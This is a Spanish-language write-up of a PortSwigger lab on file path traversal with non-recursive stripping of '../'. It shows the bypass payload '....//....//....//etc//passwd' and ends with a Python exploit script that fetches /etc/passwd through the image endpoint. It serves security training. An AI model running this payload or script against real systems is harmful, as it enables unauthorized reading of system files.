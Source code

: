 ```yaml
---
title: "03 File path traversal, traversal sequences stripped non-recursively"
collection: publications
category: portswigger
permalink: publications/Directory Traversal/03_File path traversal, traversal sequences stripped non-recursively
excerpt: 'Este laboratorio contiene una vulnerabilidad de exploración de rutas de archivos en la visualización de imágenes de productos. La aplicación elimina las secuencias de exploración de rutas del nombre de archivo proporcionado por el usuario antes de utilizarlo.'
date: 2024-12-07
#venue: 'Journal 1'
#slidesurl: 'http://academicpages.github.io/files/slides1.pdf'
#paperurl: 'http://academicpages.github.io/files/paper1.pdf'
citation: 'File path traversal, traversal sequences stripped non-recursively'
---
```


![logo]({{site.url}}/images/Directory Traversal/directory-traversal-03/logo.png)

## Descripción del laboratorio

![Descripción]({{site.url}}/images/Directory Traversal/directory-traversal-03/descripcion.png)

## Objetivo del laboratorio

Para resolver el laboratorio, recuperamos el contenido del archivo `/etc/passwd`.

## Analisis

Probamos y regresamos carpetas e ingresar desde alli `../../../etc/passwd` y vemos que nos arroja error.

![Conf1]({{site.url}}/images/Directory Traversal/directory-traversal-02/conf1.png)

Probamos con la ruta relativa `/etc/passwd` y vemos que nos arroja error.

![Conf2]({{site.url}}/images/Directory Traversal/directory-traversal-02/conf2.png)

## Saltar validación

Lo que posiblemente este sucediendo es que, el desarrollador esta filtrando las rutas que tengan `../` y no las esta dejando visualizar.
Asi que, nosotros añadimos `....//` y la ruta quedaria asi:  `....//....//....//etc//passwd`

![Conf3]({{site.url}}/images/Directory Traversal/directory-traversal-02/conf3.png)

## Aprobado

![Aprobado]({{site.url}}/images/Directory Traversal/directory-traversal-02/aprobado.png)

# Codigo Python

```python
import sys
import requests
import urllib3

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}

def directory_traversal_exploit(url):
    image_url = url + '/image?filename=....//....//....//....//etc/passwd'
    r = requests.get(image_url, verify=False, proxies=proxies)
    if 'root:x' in r.text:
        print('(+) Exploit successful!')
        print('(+) The following is the content of the /etc/passwd file:')
        print(r.text)
    else:
        print('(-) Exploit failed.')
        sys.exit(-1)

def main():
    if len(sys.argv) != 2:
        print("(+) Usage: %s <url>" % sys.argv[0])
        print("(+) Example: %s www.example.com" % sys.argv[0])
        sys.exit(-1)
    
    url = sys.argv[1]
    print("(+) Exploiting the directory traversal vulnerability...")
    directory_traversal_exploit(url)

if __name__ == "__main__":
    main()
```